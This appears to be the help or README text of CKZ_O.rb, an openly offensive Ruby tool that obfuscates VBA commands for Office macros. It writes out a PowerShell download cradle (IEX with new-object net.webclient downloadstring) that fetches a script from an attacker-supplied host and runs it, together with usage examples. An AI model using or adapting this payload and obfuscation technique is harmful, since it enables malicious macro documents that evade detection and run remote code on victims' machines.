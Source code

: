 NAME
       ____ _  __ _____     ___
      / ___| |/ /|__  /    / _ \
     | |   | ' /   / /    | | | |
     | |___| . \  / /_    | |_| |
      \____|_|\_\/____|____\___/
      Created by CausticKirbyZ
      
DESCRIPTION
Obfuscates a vba cmd for office macros by splitting it 
by chars and then combining it back together and running it in a shell

VBA CMD
powershell.exe \"IEX ((new-object net.webclient).downloadstring('#{protocol}://#{ipadd}/#{filename}')) 

SYNOPSIS
CKZ_O.rb <protocol> <ip address[:portnumber]> <file name>

EXAMPLE
./CKZ_O.rb http 192.168.1.1 myfile.txt
./CKZ_O.rb https 192.168.1.1:1234 myfile.txt

GITHUB 
For all other bugs/requests post to:
https://github.com/CausticKirbyZ/CKZ_O.git